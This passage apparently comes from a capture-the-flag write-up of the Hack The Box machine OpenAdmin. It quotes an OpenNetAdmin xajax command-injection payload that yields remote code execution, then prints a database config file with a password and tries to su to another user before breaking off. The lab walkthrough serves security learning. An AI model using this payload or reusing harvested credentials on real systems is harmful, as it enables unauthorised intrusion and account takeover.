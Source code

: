 ```bash
```

### Understanding the exploit

Before I continue, I wanted to quickly try to understand the exploit:

```bash
xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip=>;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping
```

So this is the payload used by the script, it calls the tooltips on the ping command, and does the injection in the IP variable, let's attempt to replicate this manually in BurpSuite:

![](assets/images/2024-01-27-HTB-OpenAdmin-writeup-image-2.png)

Sending this payload through burp yields an RCE, I also notice, that for formatting they added some fluff with BEGIN and END which is neat for the shell.
## Privilege Escalation

Now to privesc, at first, I look into the config files and attempt to su into another user:

```bash
www-data@openadmin:/opt/ona/www/local/config$ cat database_settings.inc.php 
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>www-data@openadmin:/opt/ona/www/local/config$ ls /home
jimmy  joanna
www-data@openadmin:/opt/ona/www/local/config$ su jimmy
Password: 
```